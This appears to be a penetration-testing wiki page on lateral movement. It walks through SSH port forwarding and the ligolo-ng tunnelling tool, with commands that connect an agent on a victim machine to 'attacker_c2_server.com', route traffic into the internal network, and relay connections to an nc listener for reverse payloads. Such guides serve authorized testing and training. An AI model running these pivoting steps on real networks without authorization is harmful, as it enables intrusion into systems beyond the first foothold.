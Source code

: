 ```yaml
---
description: >-
  Lateral Movement consists of techniques that adversaries use to enter and
  control remote systems on a network.
---
```


# 🪜 Pivoting & Portforwarding

## SSH

```bash
ssh -L 8080:acuity@203.0.113.50:8080 # Local portforward
```

## ligolo-ng

{% hint style="info" %}
Official Link: [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)
{% endhint %}

### &#x20;**Running Ligolo-ng proxy server**

Start the _proxy_ server on your Command and Control (C2) server (default port 11601):

{% code overflow="wrap" %}
```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```
{% endcode %}

### Using Ligolo-ng

Start the _agent_ on your target (victim) computer (no privileges are required!):

```bash
./agent -connect attacker_c2_server.com:11601
```

> If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the _proxy_ server.

```bash
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

### Use the `session` command to select the _agent_.

```bash
ligolo-ng » session 
Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

\
Add a route on the _proxy/relay_ server to the _192.168.0.0/24_ _agent_ network.

_Linux_:

```bash
sudo ip route add 192.168.0.0/24 dev ligolo
```

_Windows_:

```powershell
netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

### Start the tunnel on the proxy

```bash
[Agent : nchatelain@nworkstation] » start_tunnel
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

### Agent Binding/Listening

You can listen to ports on the _agent_ and _redirect_ connections to your control/proxy server.

In a ligolo session, use the `listener_add` command.

The following example will create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server.

```
[Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
INFO[1208] Listener created on remote agent!            
```

On the `proxy`:

```
$ nc -lvp 4321
```

When a connection is made on the TCP port `1234` of the agent, `nc` will receive the connection.

This is very useful when using reverse tcp/udp payloads.

You can view currently running listeners using the `listener_list` command and stop them using the `listener_stop [ID]` command:

```
[Agent : nchatelain@nworkstation] » listener_list 
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ nchatelain@nworkstation │ 0.0.0.0:1234           │ 127.0.0.1:4321         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘

[Agent : nchatelain@nworkstation] » listener_stop 0
INFO[1505] Listener closed.                             
```
